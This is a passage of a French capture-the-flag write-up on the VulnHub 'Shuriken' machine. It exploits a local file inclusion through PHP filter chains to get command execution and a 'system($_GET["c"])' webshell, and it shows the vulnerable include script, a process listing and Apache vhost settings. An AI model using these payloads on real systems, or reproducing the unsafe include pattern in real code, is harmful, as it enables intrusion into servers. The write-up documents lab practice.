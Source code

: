 ```
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
---
```

Le payload correspond à la technique que j'ai décrit pour le CTF [Corrosion](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Corrosion%20de%20VulnHub.md) et que j'ai depuis ajouté dans *Wapiti*.

Si je j'inecte le payload suivant encodé avec [php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) :

```php
<?php system("sleep 10");?>
```

J'obtiens bien un délais d'attente qui prouve que l'exécution de commande est fonctionnelle. En revanche je n'ai pas eu d'output si je tentais d'appeller `readfile` ou `phpinfo`. Au mieux j'obtenais des caractères étranges dans la page.

Le payload doit être court sinon le serveur répond par une erreur `414 Request-URI Too Long`.

Un simple `system($_GET["c"]);` est suffisant pour obtenir notre webshell qui nous fait attérir dans `/var/www/main/`.

On voit dans ce dossier que le script vulnérable faisait un peu de ménage dans les données reçues mais plusieurs payloads présents dans *Wapiti* auraient permis de voir la vulnérabilité (juste passer `/etc/passwd `suffit) :

```php
<?php
$file = $_GET['referer'];
$filter = str_replace('../','',$file);
include($filter);
?>
```

Dans les process je remarque qu'un utilisateur `server-management` fait tourner nodejs, probablement sur le port filtré :

```
server-+   730  0.2  2.5 612356 25972 ?        Ssl  Nov14   2:25 node /home/server-management/Shuriken/server.js
```

Comme on n'est pas root on ne peux pas obtenir la liste des processus qui écoute sur chacun des ports mais on peut valider l'hypothèse en regardant les sites activés pour `Apache` :

```apacheconf
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        ServerName shuriken.local
        DocumentRoot /var/www/main
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
        <Directory /var/www/main>
                Order allow,deny
                allow from all
        </Directory>
</VirtualHost>

<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        ServerName broadcast.shuriken.local
        DocumentRoot /var/www/html
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
        <Directory /var/www/html>
```